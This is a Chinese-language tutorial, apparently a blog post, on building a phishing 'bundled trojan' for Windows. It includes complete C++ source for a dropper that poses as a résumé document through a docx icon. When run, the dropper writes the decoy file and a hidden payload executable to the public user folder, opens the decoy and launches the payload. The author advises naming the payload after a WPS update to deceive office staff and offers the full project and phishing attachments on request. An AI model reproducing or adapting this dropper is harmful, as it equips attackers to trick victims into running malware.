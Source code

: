 # 鱼饵-资源文件 捆绑马

## 目录

-   [0x00 手法介绍](#0x00-手法介绍)
-   [0x01 复现步骤](#0x01-复现步骤)
-   [0x02 代码函数详解](#0x02-代码函数详解)
-   [0x03 代码展示](#0x03-代码展示)

# 0x00 手法介绍

通过资源文件进行捆绑马的制作，主要是利用 Windows 系统 API 中的资源机制，将一个或多个文件添加到程序中作为资源，并在运行时从程序资源中获取相应的文件数据。

最主要的目的是点击exe后，能打开附件并自动执行木马文件。这和winrar捆绑马有很多的相似之处，都是点击捆绑马后释放到某个目录执行。但不同点在于执行前后的代码逻辑，可以通过C++代码进行设计。如可以增加沙箱检测机制，也可以增加点击自删除机制等等，主打的就是一个定制化\~

# 0x01 复现步骤

在这里使用Visual Stdio 2019来创建资源文件

pass:文章末有关键字，回复可获取打包的整个项目。

1.资源文件->添加->资源

![](image/image_Y7Lei1hLN1.png)

2.在"增加资源"中选择"导入"

![](image/image_eoRu9ZhV4l.png)

3.在这里选择"所有文件( *.*)"

![](image/image__877LTcOPS.png)

4.使用资源文件进行捆绑，会存在文件导入的顺序问题。资源文件会默认按照文件后缀24个字母的排序顺序对导入的文件进行释放。因此在我们导入文件时，也必须按照24个英文字母的顺序对文件进行导入。如这里必须"金融研究生简历.docx">"calc.exe">"docx.ico"这个顺序进行导入。

![](image/image_28yVJldaBI.png)

5.当我们选择完文件后，需要在"资源类型"处输入当前文件的后缀，第一个文件是docx。

![](image/image_pgDy6XEdKX.png)

6.第二个文件是calc.exe，因此资源类型处要填写"exe"

![](image/image_8z1nGUByI_.png)

7.当我们把ico文件也导入后。就可以在这里看到我们导入的三个文件了。

![](image/image_7ZPHpXWJ9f.png)

8.最后编译出来的就是带有docx图标的exe文件了

![](image/image_XToIyxIDFI.png)

9.当我们点击捆绑马后，首先会在c:\users\public\目录下按照顺序生成"西交利物浦大学金融研究生简历.docx"并打开，再生成"kabers.exe" 后进行打开。

![](image/image_Mhw00VYaXe.png)

![](image/image_NppjOAoBJ-.png)

# 0x02 代码函数详解

对文件"释放路径"以及释放后的"名称"进行设置。

在这里释放路径为"C:\\\users\\\public\\\\"，也可以改为其他可写入目录。

同时也可以针对目标的业务，来对释放后的exe名称进行合理编写。如果对方是公司文员，那么可以使用"wps\_update.exe"进程名作为烟雾弹。

```c++
//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";
```

在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。

```c++
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);
```

首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。

```c++
HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());

```

然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。

```c++
HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
```

&#x20;&#x20;

接着，使用 SizeofResource() 函数获取该资源的大小。

```c++
DWORD FileSize = SizeofResource(NULL, Resource);

```

最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。

```c++
LPVOID PFILE = LockResource(ResourceGlobal);
```

# 0x03 代码展示

```c++
#include <iostream>
#include <windows.h>
#pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )

using namespace std;

//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";

//定义 EnumTypesFunc() 函数，该函数用于处理枚举到的资源类型。
void EnumTypesFunc(HMODULE hModule, LPTSTR lpType, LPTSTR lParam) {
    string Name = "";
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    //在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);

    //首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。
    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());
    //然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //接着，使用 SizeofResource() 函数获取该资源的大小。
    DWORD FileSize = SizeofResource(NULL, Resource);
    //最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。
    LPVOID PFILE = LockResource(ResourceGlobal);

    //根据资源类型判断需要提取的文件名，并构造保存文件的完整路径。
    if (fileType == "EXE") {
        Name = EXE;
    }
    else {
        Name = Filename;
    }
    string FileNameFinal = czTempPath + Name;
    strcpy_s(FileName, FileNameFinal.c_str());

    //使用 CreateFileA() 函数创建一个新的文件，并将资源数据写入该文件中。
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    DWORD dwSize;
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    CloseHandle(FILE);

    //使用 ShellExecuteExA() 函数启动刚才提取的文件
    Sleep(100);
    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
}


int main(int argc, char* argv[])
{
    //在 main() 函数中使用枚举函数 EnumResourceTypes() 枚举所有资源类型
    EnumResourceTypes(NULL,
        (ENUMRESTYPEPROC)EnumTypesFunc,
        0);                             
}

```

我也将整个项目都进行了打包，下载后双击即可打开进行编辑，在后台回复“资源”即可获取\~

![](image/image_V9DlY1QlH6.png)

回复"附件”即可获取如下钓鱼常用附件！

![](image/image_f0FH7D1tqh.png)

![](image/image_qQVqyynphz.png)

![](image/image_4RIiwN-QTh.png)
